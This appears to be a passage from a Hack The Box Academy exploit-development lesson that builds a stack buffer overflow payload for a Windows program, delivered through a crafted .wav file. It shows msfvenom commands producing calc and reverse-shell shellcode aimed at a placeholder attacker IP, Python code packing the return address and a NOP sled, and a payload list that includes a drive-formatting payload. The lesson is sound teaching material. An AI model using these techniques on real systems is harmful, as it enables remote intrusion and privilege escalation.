 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [The Final Payload](#The\Final\Payload)
  - [Shellcode Padding](#Shellcode\Padding)

## Table of Contents

  - [The Final Payload](#The\Final\Payload)
  - [Shellcode Padding](#Shellcode\Padding)


So, to generate our shellcode, we will use `msfvenom`, which can generate shellcodes for Windows systems, while tools like `pwntools` currently only support Linux shellcodes.

First, we can list all available payloads for `Windows 32-bit`, as follows:
```shell
msfvenom -l payloads | grep


windows/exec               Execute an arbitrary command
    
windows/format_all_drives         This payload formats all mounted disks in Windows (aka ShellcodeOfDeath). After formatting, this payload sets the volume label to the string specified in the VOLUMELABEL option. If the code is unable to access a drive for

windows/loadlibrary        Load an arbitrary library path
    
windows/messagebox           Spawns a dialog via MessageBox using a customizable title, text & icon
```

For initial testing, let's try `windows/exec` and execute `calc.exe` to open the Windows calculator if our exploit is successful. To do this, we'll use `CMD=calc.exe`, `-f 'python'` since we are using a python exploit, and `-b` to specify any bad characters:

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
```

## The Final Payload

Now that we have our shellcode, we can write the final payload that we'll write to the `.wav` file to be opened in our program. So far, we know the following:

1. `buffer`: We can fill the buffer by writing `b"A"*offset`
2. `EIP`: The following 4 bytes should be our return address
3. `buf`: After that, we can add our shellcode

To convert it from `hex` to an address in Little Endian, we'll use a python function called `pack` found in the `struct` library. We can import this function by adding the following line at the beginning of our code:
```python
from struct import pack
```

Now we can use `pack` to turn our address into its proper format, and use '`<L`' to specify that we want it in Little Endian formatting:
```python
   offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
```

---

## Shellcode Padding

Now that we have `buffer` and `eip`, we can add our shellcode `buf` after them and generate our `.wav` file. However, depending on the program's current Stack Frame and Stack Alignment, by the time our `JMP ESP` instruction is executed, the top of the stack address `ESP` may have moved slightly. The first few bytes of our shellcode may get skipped, which will lead the shellcode to fail. (You can check the [Intro to Assembly Language](https://academy.hackthebox.com/module/details/85) module to get a better understanding of Stack Alignment).

One way to solve this is to add a few junk bytes before our shellcode and keep testing the code until we find out exactly how many bytes get skipped before our shellcode. This is so we can precisely land at the beginning of our shellcode when our `JMP ESP` instruction is executed. However, we only need to resort to this method if we had a limited buffer space since it takes several attempts to precisely find which byte position of our shellcode the execution starts.

To avoid having to do this, we can add a few `NOP` bytes before our shellcode, which has the machine code `0x90`. The assembly instruction `NOP` is short for `No Operation`, and it is used in assembly for things like waiting for other operations to finish. So, if the `JMP ESP` execution starts at one of these bytes, the program will not crash and will execute these bytes by doing nothing until it reaches the beginning of our shellcode. At which point, our entire shellcode should get executed and should run successfully.

The stack alignment needed is usually not more than `16` bytes in most cases, and it may rarely reach `32` bytes. Since we have a lot of buffer space, we'll just add `32` bytes of `NOP` before our shellcode, which should guarantee that the execution starts somewhere within these bytes, and continue to execute our main shellcode:

Code: python

```python
    nop = b"\x90"*32
```

If we wanted to get a reverse shell, there are many `msfvenom` payloads we can use, which we can get a list of as follows:

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -l payloads | grep windows | grep reverse

...SNIP...
    windows/shell/reverse_tcp                           Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_allports                  Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/shell/reverse_tcp_dns                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4_dns                   Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_uuid                      Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell/reverse_udp                           Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
...SNIP...
```

We can use the `windows/shell_reverse_tcp` payload as follows:

```shell-session
gdxqpardo@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
...SNIP...
```

We can replace the `buf` shellcode in our exploit with either of these and test it. Let's assume we have access to a machine where we have the privilege to run this program as an administrator. We will write the shellcode for local privilege escalation in our exploit, generate our `exploit.wav` file, and load it into the program:

